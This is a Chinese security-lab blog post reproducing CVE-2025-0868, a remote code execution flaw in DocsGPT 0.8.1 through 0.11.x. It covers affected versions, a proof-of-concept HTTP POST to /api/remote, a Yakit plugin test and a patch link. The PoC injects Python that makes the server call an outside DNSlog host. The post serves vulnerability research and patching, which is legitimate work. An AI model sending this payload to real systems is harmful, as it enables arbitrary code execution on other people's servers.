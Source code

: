 #  【成功复现】DocsGPT远程代码执行漏洞 (CVE-2025-0868)   
原创 弥天安全实验室  弥天安全实验室   2025-05-11 02:27  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍DocsGPT是Arc53开源的一个尖端的开源解决方案。简化了在项目文档中查找信息的过程。DocsGPT 0.8.1版本至0.12.0版本存在安全漏洞，该漏洞源于使用eval函数对JSON数据解析不当。攻击者利用该漏洞可以通过/api/remote端点执行任意Python代码。0x02影响版本  
  
0.8.1<=docsgpt<0.12.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAcMt5OERia08jiaTAhibCubTOEYsiangwMBibnRyWJfdI1zKPKeLswMZak2fRiaH1LAj3MLx8gacQLeo6Q/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAcMt5OERia08jiaTAhibCubTOsfMMlhIibwJkMek1yFV1iaKVibvdW6EItU6VibXmv8Y3IQqVXoYztJx1fw/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
```
POST /api/remote HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

user=1&source=reddit&name=other&data={"source":"reddit","client_id":"1111","client_secret":1111,"user_agent":"111","search_queries":[""],"number_posts":10,"rce\\\\":__import__('requests').get('http://xcxtbrqrwb.iyhc.eu.org/')}#":11}
```  
  
      执行payload，通过响应判断  
漏洞存在，  
这里测试DNSlog回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAcMt5OERia08jiaTAhibCubTOLP2jSe2icqC8k59CkVfwXDQgdJMCvZvvZpbIl7dXoWlhErtBXk5DLrA/640?wx_fmt=png&from=appmsg "")  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAcMt5OERia08jiaTAhibCubTOx9LAgWhB7u9x8wxE4oBW8RBUPZxN8g4TvrWEodB0sZeE7WwgHnLT6Q/640?wx_fmt=png&from=appmsg "")  
0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://github.com/arc53/DocsGPT/releases/tag/0.13.0弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来   
